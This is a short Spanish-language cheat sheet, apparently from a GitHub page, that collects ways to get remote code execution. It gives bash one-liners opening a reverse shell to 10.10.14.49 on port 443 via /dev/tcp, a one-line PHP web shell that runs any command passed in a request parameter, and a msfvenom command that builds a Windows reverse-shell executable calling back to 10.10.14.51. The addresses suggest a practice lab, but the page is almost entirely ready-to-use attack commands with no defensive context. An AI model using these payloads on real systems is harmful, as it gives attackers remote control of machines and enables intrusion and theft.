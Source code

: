 # RCE - Reverse Shell


Aquí iremos describiendo las diferentes maneras de crear SHELLs a medida que nos las encontremos.

## LINUX

Diferentes maneras de crear shells en linux.

La manera mas directa de crear una reverse shell en Linux es:
<pre>
bash -i >& /dev/tcp/10.10.14.49/443 0>&1
</pre>

Aunque a veces es mejor indicárselo como parámetro:

<pre>
bash -c "bash -i >& /dev/tcp/10.10.14.49/443 0>&1"
</pre>

## PHP

Ejecución de comandos

~~~
  <?php system($_REQUEST["cmd"]); ?>
~~~

## MSFVENOM

### Fichero EXE
<pre>
  msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.51 LPORT=443 -f exe -o reverse.exe
</pre>